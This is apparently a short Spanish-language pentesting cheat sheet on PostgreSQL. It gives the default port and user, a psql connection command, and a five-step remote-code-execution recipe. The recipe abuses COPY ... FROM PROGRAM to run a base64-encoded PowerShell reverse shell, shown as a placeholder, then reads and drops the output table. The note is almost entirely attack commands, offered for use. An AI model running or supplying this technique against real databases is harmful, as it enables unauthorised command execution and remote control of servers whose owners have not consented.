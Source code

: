 # Info

- Suele estar en el puerto 5432
- El usuario por default es postgres

# Conectarse

    psql -h <ip> -U <user>

# RCE

#### 1)
    DROP TABLE IF EXISTS cmd_exec;

#### 2)
    CREATE TABLE cmd_exec(cmd_output text);

#### 3) 

    COPY cmd_exec FROM PROGRAM '<reverse_shell_power_b64>';

#### 4)

    SELECT * FROM cmd_exec;
#### 5)

    DROP TABLE IF EXISTS cmd_exec;
